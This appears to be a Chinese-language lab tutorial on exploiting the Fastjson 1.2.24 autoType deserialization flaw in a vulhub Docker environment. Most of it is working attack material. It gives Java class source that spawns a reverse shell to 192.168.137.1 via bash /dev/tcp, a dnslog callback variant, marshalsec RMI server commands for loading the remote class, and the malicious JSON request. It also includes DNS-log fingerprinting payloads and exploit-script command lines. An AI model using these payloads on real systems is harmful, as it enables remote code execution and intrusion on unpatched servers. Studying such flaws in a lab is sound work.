





0x00 简介
Fastjson 是一个 Java 库，可以将 Java 对象转换为 JSON 格式，当然它也可以将 JSON 字符串转换为 Java 对象。
0x01 漏洞概述
fastjson 在解析 json 的过程中，支持使用 autoType 来实例化某一个具体的类，并调用该类的 set/get 方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。
0x02 影响版本
fastjson<=1.2.24
0x03 环境搭建
1
2
3
4
5
6
7
| # 进入 vulhub 目录下的 /fastjson/1.2.24-rce 目录
# 启动环境
sudo docker-compose up -d
# 查看环境
sudo docker ps -a
# 进入环境目录
sudo docker exec -it 268f542b6482 bash
|
0x04 漏洞利用
页面如下

将以下代码保存为 TouchFile.java（需执行的命令在该文件中设置）
反弹 shell
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
| // javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;
public class TouchFile {
static {
try {
Runtime rt = Runtime.getRuntime();
String[] commands = {"/bin/bash","-c","bash -i >& /dev/tcp/192.168.137.1/7890 0>&1"};
Process pc = rt.exec(commands);
pc.waitFor();
} catch (Exception e) {
// do nothing
}
}
}
|
访问链接
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
| // javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;
public class TouchFile {
static {
try {
Runtime rt = Runtime.getRuntime();
String[] commands = {"curl","o34nai.dnslog.cn"};
Process pc = rt.exec(commands);
pc.waitFor();
} catch (Exception e) {
// do nothing
}
}
}
|
在 cmd 中使用如下命令将 java 源文件编译成 class 字节码文件
然后在当前目录使用 python 开启 http 服务
1
| python3 -m http.server 1234
|

下载 marshalsec
在 marshalsec-master 目录下的 cmd 中运行如下命令进行编译（仅第一次需要）
1
| mvn clean package -DskipTests
|

编译好后会在目录下生成一个 target 目录
然后进入 target 目录中启动一个RMI服务器，并制定加载远程类 TouchFile.class
1
| java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.137.1:1234/#TouchFile" 9999
|

然后 bp 中发包如下（这里有点慢，可能需要等十几秒）
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
| POST / HTTP/1.1
Host: 192.168.137.135:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 162
{
"b":{
"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"rmi://192.168.137.1:9999/TouchFile",
"autoCommit":true
}
|

此时 dnslog 界面已有记录

指纹特征
详细参考：https://www.freebuf.com/articles/web/242712.html
构造以下payload，利用dnslog平台接收
1
| {"zeo":{"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}}
|

1.2.67 版本之后
1
2
3
4
| {"@type":"java.net.Inet4Address","val":"xxx.dnslog.cn"}
{"@type":"java.net.Inet6Address","val":"xxx.dnslog.cn"}
# 畸形
{"@type":"java.net.InetSocketAddress"{"address":,"val":"xxx.dnslog.cn"}}
|
exp
exp 参数
1
2
3
| python3 fastjson_check.py
python3 fastjson_rce_exploit.py -u http://192.168.137.135:8090 -s 192.168.137.1 -c "curl baidu.com"
|
0x05 漏洞修复
更新版本
0x06 参考 URL
https://vulhub.org/#/environments/fastjson/1.2.24-rce/
https://www.freebuf.com/articles/web/242712.html
https://blog.csdn.net/SuPejkj/article/details/109190901
https://www.cnblogs.com/cute-puli/p/13466362.html